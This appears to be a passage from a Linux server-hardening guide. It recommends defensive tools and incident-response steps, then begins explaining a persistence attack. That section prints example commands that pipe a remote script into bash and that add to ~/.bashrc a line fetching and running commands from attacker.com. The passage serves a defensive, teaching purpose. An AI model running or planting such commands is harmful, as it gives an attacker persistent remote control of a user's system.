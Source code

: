 
## Recommended Security Tools

1. **fail2ban** - Automatic IP banning for repeated failed attempts
2. **rkhunter** - Rootkit detection
3. **aide** - File integrity monitoring
4. **ossec** - Host-based intrusion detection
5. **lynis** - Security auditing tool
6. **ufw/iptables** - Firewall management
7. **auditd** - Linux auditing framework

---

## Emergency Response

If you suspect compromise:

1. **Isolate** - Disconnect from network immediately
2. **Assess** - Check running processes, network connections
3. **Preserve** - Capture memory dump, disk image for forensics
4. **Eradicate** - Kill malicious processes, remove backdoors
5. **Recover** - Restore from known-good backup
6. **Review** - Analyze logs to determine attack vector

---

## The Persistence Attack Pattern (The Really Scary Part)

This is the attack flow that makes it so dangerous:

### Phase 1: Initial Compromise
```bash
# You run what looks like an innocent script:
curl -fsSL http://legitimate-looking-site.com/install.sh | bash

# Or SSH with weak password
# Or exploit a vulnerability
```

### Phase 2: Silent Persistence Installation
```bash
# The script does BOTH legitimate work AND malicious work:

#!/bin/bash
echo "Installing updates..."
apt update  # <- Legitimate

# Hidden in the middle:
echo '$(curl -s http://attacker.com/cmd.txt | bash)' >> ~/.bashrc
# ^ Now EVERY terminal runs attacker's commands

echo "Installation complete!"  # <- Looks successful
```
